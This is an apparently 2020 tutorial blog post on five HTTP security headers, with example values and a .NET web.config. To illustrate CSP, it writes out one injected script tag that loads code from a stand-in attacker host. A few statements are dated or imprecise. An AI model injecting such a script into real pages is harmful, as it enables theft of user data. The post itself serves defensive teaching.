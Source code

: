 # Top-5 HTTP Security Headers in 2020

Nowadays, security is important as never before. I've prepared a very small article about the Top-5 security headers in 2020 that will help your site keep your users in safety. Have a nice reading!

## Content-Security-Policy

One of the most important security header. It was created to prevent the usage of any resource from an untrusted source.

Let's go to the short example first:

Evil Bob found [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability on Alice's site. He decides to inject the script into the web-page to steal some customer data. He put this script tag into her page

```html
<script src="https://my-evilt-site.org/very-evil-script.js"></script>
```

and waits for the results

Luckily, Alice knows about CSP header and already added it to the response : ```Content-Security-Policy: default-src 'self'```. Now, a browser already knows, that scripts (and images, and fonts, and styles) not from origin domains are forbidden to use and Bob's attack fails.

Withing this header you can deny inline scripts and eval usage (goodby inline XSS), specify a checksum for the scripts (good by substitution of the 3rd party scripts), allow specific domains for your images, fonts, and styles. It can restrict fetch requests, deny usage of your site inside an iframe (goodby [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)) and much more. CSP header is very flexible and can support almost all of your needs.

### Can I use?

CSP header [supported](https://caniuse.com/#feat=mdn-http_headers_csp_content-security-policy) by almost all browsers including IE (but with a special name - X-Content-Security-Policy). Some of the directives may not be supported across different browsers but this will not ruin the header.

### Code Example

* Allow all remote resources from your domain: ```Content-Security-Policy: default-src 'self'```. No external API calls allowed!
* Allow all remote resource from your domain and external api calls: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://randomuser.me```. IFramin is allowed.
* Allow all remote resource from your domain, external api calls, disallow iframing your site: ```Content-Security-Policy: default-src 'self'; connect-src 'self' https://randomuser.me; frame-ancestors 'none';``` Not so strict as I wish.
* Disallow everything except whitelisted: ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://randomuser.me; script-src 'self'; style-src 'self'; frame-ancestors 'none'``` Much better now but without [critical css](https://developer.mozilla.org/en-US/docs/Web/Performance/Critical_rendering_path)
* Disallow everything except whitelisted (with inline css): ```Content-Security-Policy: default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://randomuser.me; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'```

Examples are simplified just to give you better understanding of the CSP header power. For additional info check the [mdn page](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) and the [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/) is also very useful.


## X-Content-Type-Options

This is a bit tricky header but it works very well with CSP, so it worth mentioning.

Imagine, that Evil Bob found XSS on Alice's site and tries to put some malicious script inside. But Alice already has setup CSP policy, so his attempt to download javascript from untrusted resources fails. But Evil Bob is smart. He changes the type of the injected script to "text/plain". Now, CSP protection will allow loading script, because it is not javascript anymore and should not be executed. But sometimes, browsers try to be too smart. They may check the content of the loading "text", and decide to execute it as JavaScript. This named sniffing and this behavior varies depending on the browser.

This header tells the browser,  strictly follow provided Mime/Type, and don't try to guess.

### Can I use?

[Supported](https://caniuse.com/#feat=mdn-http_headers_x-content-type-options) by all browsers except Safari.

### Code Example

Only one option is possible: ```X-Content-Type-Options: nosniff```

## Feature-Policy

This header is designed to turn off features that you don't expect to be used.

Alice has a nice and shiny site with a big audience. Evil Bob found XSS and decided to use Alice's site for spying using a user's web camera. So he injects malicious code and waits for the dozen of the new videos.

But, fortunately, Alice already set Feature-Policy header to ```Feature-Policy: camera 'none'```

Now, browsers know, that using a camera is not permitted for anyone, and Bob's attempt fails. Of course, you can turn off not only a camera but also autoplay (useful when you are showing some ads from 3rd party vendors), microphone and very much more. If you don't want to turn it off for all, you can allow to use it only for code from your domain.


### Can I use?

Partially [supported](https://caniuse.com/#feat=feature-policy) by most of the browsers and not supported by the IE.

### Code Example

Disabling geolocation:  ```Feature-Policy: geolocation 'none'```
Disabling sensetive features:  ```Feature-Policy: camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'```

## Strict-Transport-Security

This is a very simple header for those who use HTTPS. It tells the browser to use only HTTPS connection, even if the user is trying to use HTTP.

Let's imaging that Alice is sitting in a public place and use public WiFi. Evil Bob is sitting not very far from her and trying to sniff all non-encrypted traffic. Alice decides to visit some online-shop and uses an old and good link like www://my-example-shop.com. Evil Bob sees her request (it's not encrypted) and starts recording Alice's activity hoping to get credit card information. But, after the first request, the shop returns STS header: ```Strict-Transport-Security: max-age=31536000```. And browsers automatically redirects Alice to the HTTPS version of the page. From now, Evil Bob sees only encrypted traffic and can't steal anything.

## Can I use?

[Supported](https://caniuse.com/#feat=stricttransportsecurity) by all browsers except Opera Mini. And Yes, IE also supports this header.

### Code Example

```Strict-Transport-Security: max-age=31536000; includeSubDomains```

## Referrer-Policy

Controls how much of the referer information (host, query params, etc) are sent within the request.

Short example:

Alice has a forum about cats with lots of links to other resources. When a user clicks on the link, he is navigated to another web page, and this web page can gather some information about the source of the navigation. You value the privacy of your users and want to keep this information secret. You set Referer-Policy header and deny browser to send referer information for all except your self.

### Can I use?

Mostly [Supported](https://caniuse.com/#feat=referrer-policy) with all (IE - partially) browsers except Opera Mini

### Code Example

Showing referer info only for the origin: ```Referrer-Policy: same-origin```

## Summary:

As far as I use .NET, here is the result setup for web.config: (note, unsafe js inline is not supported):

```xml
<customHeaders>
    <add name="Content-Security-Policy" value="default-src 'none'; img-src 'self'; font-src 'self'; connect-src 'self' https://my-example-api.ua; script-src 'self'; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'" />
    <add name="Feature-Policy" value="camera 'none'; microphone 'none'; geolocation 'none'; autoplay 'none'; display-capture 'none'; payment 'none'" />
    <add name="X-Content-Type-Options" value="nosniff"/>
    <add name="Referrer-Policy" value="same-origin"/>
    <add name="Strict-Transport-Security" value="max-age=31536000"/>
</customHeaders>
```

## Usefull links:

* [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
* [CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/)
* [Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy)
* [Using Feature-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Feature_Policy/Using_Feature_Policy)
* [X-Content-Type-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/headers/X-Content-Type-Options)
* [Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy)
* [Strict-Transport-Security](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security)


Bonus: web.config with all set headers can be found [here]()

**Stay safe and don't forget to remove x-powered header! :)**
